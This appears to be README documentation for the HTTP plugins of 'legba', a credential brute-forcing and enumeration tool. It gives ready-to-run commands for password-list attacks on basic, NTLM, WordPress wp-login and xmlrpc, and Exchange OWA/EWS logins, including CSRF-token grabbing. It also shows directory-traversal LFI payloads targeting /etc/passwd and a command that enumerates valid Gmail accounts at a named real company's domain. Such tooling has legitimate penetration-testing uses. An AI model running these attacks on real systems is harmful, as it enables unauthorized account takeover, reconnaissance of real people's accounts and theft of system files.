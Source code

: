 A set of plugins supporting http basic authentication, NTLMv1, NTLMv2, multipart form requests, standard HTTP requests, CSRF token grabbing and HTTP pages enumeration.

| Name | Description |
| ---- | ----------- |
| http       | HTTP request. |
| http.basic | HTTP basic authentication. |
| http.enum  | HTTP pages enumeration. |
| http.form  | HTTP multipart form request. |
| http.ntlm1 | NTLMv1 authentication over HTTP. |
| http.ntlm2 | NTLMv2 authentication over HTTP. |
| http.vhost | HTTP virtual host enumeration. |

## Options

| Name | Description |
| ---- | ----------- | 
| `--http-success-codes <HTTP_SUCCESS_CODES>` | Comma separated status codes to consider as successful authentication attempts for HTTP based plugins [default: "200, 301, 302"] |
| `--http-random-ua` | Randomize requests User-Agent |
| `--http-success-string <HTTP_SUCCESS_STRING>` | Check for the presence of this string in the response in order to recognize a succesful attempt |
| `--http-failure-string <HTTP_FAILURE_STRING>` | Check for the presence of this string in the response in order to recognize a failed attempt |
| `--http-follow-redirects` | Follow HTTP redirects |
| `--http-method <HTTP_METHOD>` | Request method for HTTP based plugins [default: `GET`] |
| `--http-headers <HTTP_HEADERS>...` | Request headers for HTTP based plugins |
| `--http-csrf-page <HTTP_CSRF_PAGE>` | For each request grab a CSRF token from this page |
| `--http-csrf-regexp <HTTP_CSRF_REGEXP>` | Regular expression to use to grab the CSRF token name and value [default: `"<input type=\"hidden\" name=\"(token)\" value=\"([^\"]+)\""`] |
| `--http-payload <HTTP_PAYLOAD>` | Request payload (query string, post body or form data) for HTTP based plugins |
| `--http-enum-ext <HTTP_ENUM_EXT>` | File extension for HTTP enumeration [default: `php`] |
| `--http-enum-ext-placeholder <HTTP_ENUM_EXT_PLACEHOLDER>` | File extension placeholder for HTTP enumeration wordlist [default: `%EXT%`] |
| `--http-ntlm-domain <HTTP_NTLM_DOMAIN>` | Domain for NTLM authentication over HTTP |
| `--http-ntlm-workstation <HTTP_NTLM_WORKSTATION>` | Workstation name for NTLM authentication over HTTP [default: `CLIENT`] |
| `--proxy <PROXY>` | Proxy URL |
| `--proxy-auth <PROXY_AUTH>` | Proxy authentication as username:password |

## Examples

### Basic Authentication

HTTP Basic Authentication

```sh
legba http.basic \
    --username admin \
    --password wordlists/passwords.txt \
    --target http://localhost:8888/
```

### NTLM Authentication

HTTP Request with NTLMv1 Authentication:

```sh
legba http.ntlm1 \
    --domain example.org \
    --workstation client \
    --username admin \
    --password wordlists/passwords.txt \
    --target https://localhost:8888/
```

HTTP Request with NTLMv2 Authentication:

```sh
legba http.ntlm2 \
    --domain example.org \
    --workstation client \
    --username admin \
    --password wordlists/passwords.txt \
    --target https://localhost:8888/
```

Targeting an example Microsoft Exchange server via NTLMv2:

```sh
legba http.ntlm2 \
    --http-ntlm-domain LEGBA \
    --username jeff \
    --password wordlists/passwords.txt \
    -T "https://exchange-server/ews" \
    --http-success-codes "200, 500"
```

### Enumeration

HTTP Pages Enumeration:
 
```sh
legba http.enum \
    --payloads data/pages.txt \
    --target http://localhost:8888/ \
    --http-enum-ext php \ # php is the default value for file extensions
    --http-success-codes 200 
```

Wordpress plugin discovery using interpolation syntax:
 
```sh
legba http.enum \
    --payloads data/wordpress-plugins.txt \
    --target http://localhost:8888/wp-content/plugins/{PAYLOAD}/readme.txt \
    --http-success-codes 200 
```

LFI vulnerability fuzzing:

```sh
legba http.enum \
    --payloads data/lfi.txt \
    --target http://localhost:8888/ \
    --http-success-string "root:"
```

The `data/lfi.txt` would be something like:

```
?page=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
file?filename=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
...
... and so on ...
...
```

Google Suite / GMail valid accounts enumeration:

```sh
legba http.enum \
    --payloads data/employees-names.txt \
    --http-success-string "COMPASS" \
    --http-success-codes 204 \
    --quiet \
    --target "https://mail.google.com/mail/gxlu?email={PAYLOAD}@broadcom.com" 
```

### Misc HTTP Requests

HTTP Post Request (Wordpress wp-login.php page):

```sh
legba http \
    --username admin \
    --password wordlists/passwords.txt \
    --target http://localhost:8888/wp-login.php \
    --http-method POST \
    --http-success-codes 302 \ # wordpress redirects on successful login
    --http-payload 'log={USERNAME}&pwd={PASSWORD}'
```

HTTP Post Request (Wordpress xmlrpc.php)

```sh
legba http \
    --username admin \
    --password wordlists/passwords.txt \
    --target http://localhost:8888/xmlrpc.php \
    --http-method POST \
    --http-payload '<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>{USERNAME}</string></value></param><param><value><string>{PASSWORD}</string></value></param></params></methodCall>' \
    --http-success-string 'isAdmin' # what string successful response will contain
```

Or using the @ syntax to load the payload from a file:

```sh
legba http \
    --username admin \
    --password wordlists/passwords.txt \
    --target http://localhost:8888/xmlrpc.php \
    --http-method POST \
    --http-payload @xmlrpc-payload.xml \
    --http-success-string 'isAdmin'
```

HTTP Post Request with CSRF Token grabbing:

```sh
legba http \
    --username admin \
    --password wordlists/passwords.txt \
    --target http://localhost:8888/ \
    --http-csrf-page http://localhost:8888/ \ # where to grab the CSRF token from, or empty if it's the same as --target
    --http-csrf-regexp '<input type="hidden" name="(token)" value="([^\"]+)"' \ # regular expression to extract it
    --http-method POST \
    --http-payload 'user={USERNAME}&pass={PASSWORD}'
```

Targeting an example Microsoft Exchange server via OWA:

```sh
legba http \
    --target "https://exchange-server/owa/auth.owa" \
    --username "LEGBA\jeff" \
    --password wordlists/passwords.txt \
    --http-method POST \
    --http-payload 'destination=https://exchange-server/&flags=4&username={USERNAME}&password={PASSWORD}' \
    --http-success-codes 302 \
    --http-success-string 'set-cookie'
```

